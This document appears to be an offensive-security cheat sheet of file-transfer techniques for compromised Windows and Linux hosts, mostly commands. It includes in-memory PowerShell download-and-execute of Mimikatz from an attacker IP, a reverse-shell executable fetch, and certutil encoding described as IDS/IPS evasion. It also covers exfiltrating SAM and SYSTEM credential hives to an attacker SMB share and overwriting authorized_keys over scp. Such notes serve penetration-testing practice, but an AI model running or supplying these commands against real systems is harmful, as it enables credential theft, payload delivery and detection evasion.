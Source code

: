 # File-Transfert-Methods

# Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

***Important Note :*** In case of cmd shell and not powershell prompt, you can execute powershell command using "powershell -c 'COMMAND'". As exemple :
C:\Users\bill\Documents>powershell -c "(New-object System.Net.WebClient).DownloadFile('http://10.0.0.1:8000/myreverseshell.exe','C:\tmp\myreverseshell.exe')"

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

#### Copy
Upload a file from the Windows victim machine to the kali attacker machine.

```
#On the attacker kali machine, deploy a smb server
sudo python3 /opt/impacket/examples/smbserver.py kali .

#On the windows victime machine, upload the file
copy C:\Windows\Repair\SAM \\AttackerIP\kali\
copy C:\Windows\Repair\SYSTEM \\AttackerIP\kali\
```

**Note:** The files are stored in the folder where the shell execute the command not in the impacket folder or kali folder. As example, If you execute the command "sudo python3 /opt/impacket/examples/smbserver.py kali ." from the /home/kali/test/ folder, the files will be stored inside.


#### Evil-winrm
Upload a file from the Windows victim machine to the kali attacker machine.

```
*Evil-WinRM* PS C:\Users\victim\Desktop> download sam
Info: Downloading C:\Users\victim\Desktop\sam to sam                 
Info: Download successful!
```


# Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```

#### Bypass IPtable using SCP through SSH
```
In the case of IPtable restrict the possibility to upload a file on the victim machine.
If you have a ssh connection using a id-rsa key, you could try the SCP tool to upload the file through the SSH connection.

➤ Prerequisite : Have a ssh connection (id-rsa)

➤ Error :
wget -O test.txt http://192.168.1.1:443/test.txt
--2022-03-13-- http://192.168.1.1:443:test.txt
Connecting to 192.168.1.1:443 ...

➤ Command :

• From the attacker machine, download something from the victim machine (using password)
# scp <file_to_download> <username>@<ip>:/<location> <where_to_upload>
root# scp myfile.txt user@10.0.0.1:/home/user
user@10.0.0.1's password:
OR for download a complete repository 
root# scp myfile.txt user@10.0.0.1:/home/user/* .

• From the the attacker machine, download something from the victim machine (using ssh key)
# scp -i <ssh_key>  <username>@<ip>:/<location>/<file> <where_to_upload>
scp -i sshkey.pem user@10.0.0.1:/home/user/test.txt /tmp/
OR
scp victim@10.10.120.172:/home/victim/myexamplefile.zip .

• From the attacker machine, upload something on a the victim machine
root# scp -i ~/.ssh/id_rsa myfile.txt user@10.0.0.1

• From the victim machine, upload something on the attacker machine
scp myfile root@10.0.0.1:/home/kiosec/Documents/
scp myfile.txt root@10.0.0.1:/root/ .

using a custom port, you can specify it with the -P flag:
scp -P 2222 myfile root@10.0.0.1:/home/kiosec/Documents/

copy an entire directory, use the -r flag for recursive copy:
scp -r /path/to/local/folder root@10.0.0.1:/home/kiosec/Documents/

➤ Frequent errors :

• Error "Received message too long xxxxxxxxx"
# scp -i id_rsa authorized_keys kiosec@192.168.0.100:/home/kiosec/.ssh/authorized_keys
scp: Received message too long 1094927173
scp: Ensure the remote shell produces no output for non-interactive sessions.

The solution is to split the message in multiple during sending. For this purpose, it necessary to add -O parameter:
# scp -O -i id_rsa authorized_keys kiosec@192.168.0.100:/home/kiosec/.ssh/authorized_keys
authorized_keys                                                         100%  738   778.3KB/s   00:00 
```
